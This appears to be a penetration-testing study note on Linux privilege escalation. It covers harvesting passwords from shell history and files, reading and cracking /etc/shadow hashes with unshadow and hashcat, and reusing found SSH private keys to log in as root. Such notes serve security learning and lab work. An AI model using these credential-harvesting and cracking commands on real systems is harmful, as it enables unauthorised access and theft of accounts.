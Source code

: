 # Escalate via password anf file permission

## Stored Passwords

- `history` or `cat .bash_history` will show previous command and will sometines leak password
- `find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;`
- Sometimes a simple `ls` or `ls -la` will give interesting files

## Weak File permission

- Do we have access to file that we shouldn't?
- `ls -la /etc/passwd`
  - This used to store password
  - If we can modify the file we can remove the x, we could change the num of the group of our user to become part of root group
- `ls -la /etc/shadow`
- We can copy the content of `/etc/passwd` in a file in our attacking machine
- we can then use `unshadow` `unshadow passwd shadow`  
![image](https://user-images.githubusercontent.com/96747355/167272581-c345c457-a9c3-4cf5-a925-e1e88d66cb36.png)  
- We can then copy this output in another file and just keep the users with the hash
![image](https://user-images.githubusercontent.com/96747355/167272620-3ac73fdf-767f-45b6-96b6-044950186a05.png)  
- We can now look for the hash on [hashcat.net](https://hashcat.net/wiki/doku.php?id=example_hashes) our hashes start with `$6$` so we can ctrl+F this and this will give us the mode number to use.
- `hashcat -m 1800 unshadowed /usr/share/wordlists/rockyou.txt -O`
![image](https://user-images.githubusercontent.com/96747355/167272817-b884a708-a2b6-47e7-b4da-50b909b62536.png)  

## SSH keys

- `find / -name authorized_keys 2> /dev/null`
- `find / -name id_rsa 2> /dev/null`
- If we find an id_rsa key, we can copy it in our machine and use it to log in
- Before using it we have to change the right `chmod 600 id_rsa`
- And then we can just `ssh -i id_rsa root@10.10.240.48`
